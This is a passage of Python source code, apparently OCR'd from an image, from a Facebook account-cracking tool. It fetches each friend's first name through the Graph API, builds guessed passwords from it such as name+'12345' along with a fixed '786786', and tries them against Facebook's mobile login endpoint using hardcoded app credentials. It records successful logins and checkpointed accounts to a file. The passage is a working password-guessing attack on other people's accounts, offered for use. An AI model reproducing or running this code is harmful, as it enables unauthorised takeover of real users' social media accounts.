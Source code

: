 crack_action()
xxx = str(len(id))
psb ("[✓] Total Friends: "+xxx)
time.sleep(0.5)
psb ("[✓] Please wait, process is running ...")
time.sleep(0.5)
psb ("[!] To Stop Process Press CTRL Then Press z")
time.sleep(0.5)
print (50*"-")
print

def main(arg):
	global cpb,oks
	user = arg
	try:
		a = session.get("https://graph.facebook.com/"+user+"/?access_token="+toket)
		b = json.loads(a.text)
		d=b["first_name"]
		e=d.replace(" ", "")
		f=e.lower()
		g=pf(f, 1)
		h=g.upper()
		i=rf(f, 1)
		c=h+i
		pass1="786786"
		data = br.open("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=" + user + "&locale=en_US&password=" + pass1 + "&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
		q = json.load(data)
		if "access_token" in q:
			print "\x1b[1;92m[Successful]\x1b[0m " + user + " | " + pass1
			oks.append(user+pass1)
		else:
			if "www.facebook.com" in q["error_msg"]:
				print "[Checkpoint] " + user + " | " + pass1
				cps = open("checkpoint.txt", "a")
				cps.write(user+"|"+pass1+"\n")
				cps.close()
				cpb.append(user+pass1)
			else:
				pass2 = c+"12345"
				data = br.open("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=" + user + "&locale=en_US&password=" + pass2 + "&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
				q = json.load(data)
				if "access_token" in q:
					print "\x1b[1;92m[Successful]\x1b[0m " + user + " | " + pass2
					oks.append(user+pass2)
				else:
					if "www.facebook.com" in q["error_msg"]:
						print "[Checkpoint] " + user + " | " + pass2
						cps = open("checkpoint.txt", "a")
						cps.write(user+"|"+pass2+"\n")
						cps.close()
						cpb.append(user+pass2)
					else:
						pass3 = c + "123"
						data = br.open("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=" + user + "&locale=en_US&password=" + pass3 + "&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
						q = json.load(data)
						if "access_token" in q:
							print "\x1b[1;92m[Successful]\x1b[0m " + user + " | " + pass3
							oks.append(user+pass3)
